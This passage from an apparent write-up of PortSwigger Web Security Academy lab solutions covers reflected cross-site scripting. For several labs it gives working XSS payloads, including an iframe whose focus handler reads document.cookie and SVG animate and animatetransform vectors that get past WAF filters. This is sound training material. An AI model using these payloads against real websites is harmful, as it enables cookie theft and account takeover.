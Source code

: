**Solution**

```
<iframe src=https://ac6b1f4c1ea25374c01b644300f600bc.web-security-academy.net/?search=<xss id=xss tabindex=1 onfocusin=alert(document.cookie)></xss>#xss>
```

### Lab 15 - Reflected XSS with event handlers and href attributes blocked

https://portswigger.net/web-security/cross-site-scripting/contexts/lab-event-handlers-and-href-attributes-blocked

The user input in search bar is reflected in the page but there is a WAF protection the application against common XSS payloads. On top of that, all event handlers are blacklisted.

It is **still possible** to trigger XSS without the use of **event tags**. Generally, the technique relies on using anchor tags `<a>` in combination with the `href` attribute. Here `href` **as an attribute** is blocked. However, we can trick the WAF by embedding it inside a `<animate>` **svg** tag.

The WAF will not consider `href` as an attribute and allow the request to go through, however, the victim's browser will parse `href` as if it was an attribute and execute the `javascript:...` payload passed in `values` .

Read https://blog.isec.pl/xss-fun-with-animated-svg/ for more details about this technique

**Solution**

*Note: we need to label our vector with the word "Click" in order to induce the simulated lab user to perform a click action.*

```
<svg><a><animate attributeName="href" values="javascript:alert(1)"></animate><text x="20" y="20">Click Me</text></a></svg>
```

### Lab 16 - Reflected XSS with some SVG markup allowed

https://portswigger.net/web-security/cross-site-scripting/contexts/lab-some-svg-markup-allowed

User input in the search bar is reflected on the page but there is a WAF protecting the application against common XSS payloads.

We are permitted to use `<svg>` tags which is a common XSS vector.

https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#svg

**Solution**
```
<svg><animatetransform onbegin=alert(1) attributeName=transform>
```

### Lab 17 - Reflected XSS into attribute with angle brackets HTML-encoded

https://portswigger.net/web-security/cross-site-scripting/contexts/lab-attribute-angle-brackets-html-encoded

### Lab 18 - Stored XSS into anchor href attribute with double quotes HTML-encoded
